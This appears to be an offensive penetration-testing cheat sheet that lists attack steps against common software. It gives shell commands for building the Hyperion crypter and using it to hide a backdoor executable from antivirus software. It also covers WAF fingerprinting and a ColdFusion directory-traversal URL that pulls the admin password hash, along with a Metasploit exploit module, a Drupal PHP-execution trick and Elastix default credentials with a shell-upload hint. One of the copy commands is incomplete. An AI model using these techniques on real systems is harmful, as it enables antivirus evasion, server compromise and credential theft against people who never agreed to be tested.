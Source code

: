 ## Bypassing Antivirus Software

- Crypting Known Malware with Software Protectors; One such open source crypter, called Hyperion  

    ```shell
    cp /usr/share/windows-binaries/Hyperion-1.0.zip  
    unzip Hyperion-1.0.zip  
    cd Hyperion-1.0/  
    i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe  
    cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libgcc_s_sjlj-1.dll .  
    cp -p /usr/lib/gcc/i686-w64-mingw32/5.3-win32/libstdc++-6.dll .  
    wine hyperion.exe ../backdoor.exe ../crypted.exe
    ```

## Windows Commands for Linux Users

<https://www.lemoda.net/windows/windows2unix/windows2unix.html>

### WAF - Web application firewall

One of the first things we should do when starting to poke on a website is see what WAF it has.
Identify the WAF
      `wafw00f <http://example.com>`

<http://securityidiots.com/Web-Pentest/WAF-Bypass/waf-bypass-guide-part-1.html>

### Common web-services

This is a list of some common web-services. The list is alphabetical.

- Cold Fusion
  - If you have found a cold fusion you are almost certainly struck gold. <http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers>
  - Determine version `example.com/CFIDE/adminapi/base.cfc?wsdl` It will say something like:

      ```HTML
      <!--WSDL created by ColdFusion version 8,0,0,176276-->
      Version 8
      FCKEDITOR
      ```

  - This works for version 8.0.1. So make sure to check the exact version.
      `use exploit/windows/http/coldfusion_fckeditor`
- LFI
    This will output the hash of the password.
    <http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en>

- You can pass the hash.
    <http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers>
    <http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/>
- neo-security.xml and password.properties
- Drupal
  - droopescan
  - After log in, go to modules -> PHP Filter to enable php code execution ( Web Pages )
- Elastix
  - Full of vulnerabilities. The old versions at least.
    <http://example.com/vtigercrm/> default login is admin:admin
    You might be able to upload shell in profile-photo.
- Joomla
    `joomscan`
